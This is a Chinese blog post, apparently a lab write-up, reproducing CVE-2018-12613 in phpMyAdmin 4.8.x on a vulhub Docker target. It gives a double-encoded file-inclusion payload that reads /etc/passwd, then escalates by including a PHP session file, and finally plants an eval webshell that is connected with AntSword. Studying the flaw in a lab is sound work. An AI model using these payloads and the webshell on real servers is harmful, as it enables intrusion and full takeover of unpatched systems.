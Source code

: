 ```yaml
---
layout:     post             
title:      CVE-2018-12613 漏洞复现
date:       2021-07-14            
author:     suleo                  
head-img:   img/unix-linux.jpg
catalog: true                      
tags:      
   - 漏洞复现
typora-root-url: ../img/cve-2018-12613
---
```


## CVE-2018-12613 本地文件包含漏洞详解

### 前言

phpMyAdmin是phpMyAdmin团队开发的一套免费的、基于Web的MySQL数据库管理工具。该工具能够创建和删除数据库，创建、删除、修改数据库表，执行SQL脚本命令等。 

> 漏洞影响范围 phpmyadmin 4.8.0 & 4.8.1

### 漏洞原理

服务器执行PHP文件时，可以通过文件包含函数加载另一个文件中的PHP代码并且执行。

- 文件包含相关函数，代码审计时可关注如下几个函数

~~~
require()          # 函数出现错误的时候，会直接报错并退出程序的执行
require_once()     # 只包含一次
include()          # 在包含的过程中如果出现错误，会抛出一个警告，程序继续正常运行
include_once()     # 只包含一次
~~~

- 在存在漏洞的phpmyadmin的源代码的index.php中, 就出现了include函数

![image-20230716222403963](https://raw.githubusercontent.com/BigTree975/BigTree975.github.io/master/img/index_php.jpg)

- 根据上图，我们需要绕过前面几行条件的限制，条件如下

  - target参数不能为空
  - target参数必须为字符串
  - target 参数不能以index开头

  - target 参数不能出现在 $target_blacklist 内

    - 找到target_blacklist定义如下![image-20230716224109344](https://raw.githubusercontent.com/BigTree975/BigTree975.github.io/master/img/taeget_blacklist.png)

  - 参数必须通过白名单验证

    - Core::checkPageValidity($_REQUEST['target'])，我们查看Core类checkPageValidity方法源代码

    ![image-20230716230259840](https://raw.githubusercontent.com/BigTree975/BigTree975.github.io/master/img/core_check.png)

    - 白名单部分如下图所示

    ![截屏2023-07-16 23.31.44](https://raw.githubusercontent.com/BigTree975/BigTree975.github.io/master/img/whiteliat.png)

    - 所以利用二次编码“%253f”可以绕过checkPageValidity()的检查！

  - 构造payload

    > 由于二次解码只是在checkPageValidity()中执行的，在index.php中只做过一次解码

    1. checkPageValidity二次解码后,这个符合白名单验证，问号之前的文件在白名单之内
           

       ```
       /index.php?target=db_sql.php?/../../../../../../../../etc/passwd
       ```

    2. 绕过验证后，index.php一次解码后，如下所示，可以实现任意路径的文件访问
           

       ```
       /index.php?target=db_sql.php%3f/../../../../../../../../etc/passwd
       ```

    3. 最终payload

       ```
       /index.php?target=db_sql.php%253f/../../../../../../../../etc/passwd
       ```

### 漏洞验证

**复现环境： /vulhub/phpmyadmin/CVE-2018-12613**

```
# 切换到目标文件夹内,写你自己的路径
cd  /opt/vulhub/phpmyadmin/CVE-2018-12613 

# 拉取并启动容器
docker compose up -d

# 浏览器访问
http://localhost:8080

# 漏洞验证访问,/etc/passwd被读取，说明文件包含漏洞存在
http://localhost:8080/index.php?target=db_sql.php%253f/../../../../../../../../etc/passwd
```

![截屏2023-07-16 23.13.27](https://raw.githubusercontent.com/BigTree975/BigTree975.github.io/master/img/etc_passwd.png)

### 漏洞利用

> 现在我们已经可以读取站点本地文件，那我们如何利用本地文件包含漏洞获取权限呢,？我们能写入一个webshell吗？ 咋写呢？
>
> ​	maybe可以试试session, php session文件可以存储会话的一些信息，我们来试试

- **执行 SQL语句 `SELECT '<?php phpinfo(); ?>'**

![image-20230717002336143](https://raw.githubusercontent.com/BigTree975/BigTree975.github.io/master/img/phpinfo.png)

- **根据session id查看session文件， cat /tmp/sess_06f6516222139397dee258dd594e5018**

![image-20230717002139736](https://raw.githubusercontent.com/BigTree975/BigTree975.github.io/master/img/session1.png)

- **包含session文件**

```
http://localhost:8080/index.php?target=db_sql.php%253f/../../../../../../../../tmp/sess_06f6516222139397dee258dd594e5018
```

​		成功包含session文件并执行了phpinfo![截屏2023-07-17 00.40.36](https://raw.githubusercontent.com/BigTree975/BigTree975.github.io/master/img/session.png)

- **既然可以通过session文件执行代码，那我们是否可以试试写入一句话木马**

```

# 通过sql查询写入一句话木马到session文件
	select "<?php @eval($_GET['s']);?>"
	
# 根据session id访问session文件，测试参数 s 是否能够成功执行命令
http://localhost:8080/index.php?target=db_sql.php%253f/../../../../../../../../tmp/sess_5e32e548ae8bb49bc7110dc2ec0ae06c?s=phpinfo();
```

​		成功执行phpinfo();

![截屏2023-07-17 01.17.45](https://raw.githubusercontent.com/BigTree975/BigTree975.github.io/master/img/arg_s.png)

- **写webshell**

~~~
http://localhost:8080/index.php?target=db_sql.php%253f/../../../../../../../../tmp/sess_5e32e548ae8bb49bc7110dc2ec0ae06c&s=fputs(fopen(%27x.php%27,%27w%27),%27%3C?php%20@eval($_POST[pass])?%3E%27);
~~~

查看web目录下是否成功写入， cat /var/www/html/x.php, 已成功写入一句话木马

![截屏2023-07-17 01.23.08](https://raw.githubusercontent.com/BigTree975/BigTree975.github.io/master/img/w_eval.png)

蚁剑连接一句话木马

![截屏2023-07-17 01.25.38](https://raw.githubusercontent.com/BigTree975/BigTree975.github.io/master/img/test_connect.png)

成功获取shell

![截屏2023-07-17 01.25.17](https://raw.githubusercontent.com/BigTree975/BigTree975.github.io/master/img/getshell.png)